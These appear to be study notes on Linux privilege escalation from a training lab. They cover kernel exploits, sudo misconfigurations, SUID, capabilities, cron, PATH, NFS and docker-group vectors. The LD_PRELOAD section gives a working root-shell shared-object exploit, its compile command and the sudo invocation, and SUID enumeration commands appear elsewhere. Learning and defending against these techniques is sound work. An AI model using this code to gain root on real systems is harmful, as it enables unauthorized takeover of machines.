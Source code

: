 ## Kernel Exploits
The Kernel exploit methodology is simple;
1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit
## Sudo 
Any user can check its current situation related to root privileges using the `sudo -l` command.
**Leverage LD_PRELOAD**
On some systems, you may see the LD_PRELOAD environment option.
LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD.
If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.  

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
We need to run the program by specifying the LD_PRELOAD option, as follows;
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
Example:
``` shell
saad@ip-10-201-80-205:~$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on ip-10-201-80-205:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on ip-10-201-80-205:
    (root) /usr/bin/ping
```
In this example we have user `saad`has the env_keep option for LD_PRELOAD, and can run `/usr/bin/ping` as sudo. To exploit this misconfiguration we can create the share object file that can get us a root shell:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```
Then we compile this C code into a share library:
```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Finally, we execute the command by specifying the LD_PRELOAD option:
```shell
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

## SUID
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  
  
You will notice these files have an “s” bit set showing their special permission level.  
  
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
## Capabilities
Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. We can use the `getcap` tool to list enabled capabilities.
When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.
## Cron Jobs
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.
Any user can read the file keeping system-wide cron jobs under `/etc/crontab`.
## PATH
PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the [[shell]] or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).
## NFS
NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.
The critical element for this privilege escalation vector is the “no_root_squash” option. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system
## Lessons Learned
**Wildcard injections**: When command runs with `*` it might mean it's vulnerable to a wildcard injection.
**Docker group**: When a user is in the docker group you can get root. See GTFObins.
